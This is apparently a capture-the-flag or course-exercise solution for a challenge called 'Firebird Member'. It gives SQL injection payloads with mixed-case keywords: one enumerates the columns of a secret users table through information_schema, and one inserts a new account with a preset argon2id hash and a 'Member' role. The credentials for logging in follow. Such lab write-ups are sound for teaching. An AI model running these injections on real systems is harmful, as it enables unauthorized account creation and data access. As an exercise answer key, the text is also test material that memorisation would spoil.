 # Exercise 5-B Firebird Member [100 points] (25 solves)
```payload
SelecT * FroM comp2633_reviews UnioN SelecT TablE_NamE,Column_NamE,Ordinal_PositioN,Column_typE,1,1,1 FroM InformatioN_SchemA.ColumnS WherE TablE_NamE = 's3cret_users'

InserT IntO s3cret_users ValueS('2000','usernameusername','$argon2id$v=19$m=2048,t=4,p=3$Uk45Qy9hUkVJREhiRVpBZQ$lehDSknHcMgh7uZnEc7Karedf2IsqxQAcBs8ZyEsN4U','Member')
```
To the login page, use `username=usernameusername` and `password=passwordpassword` to login as a member.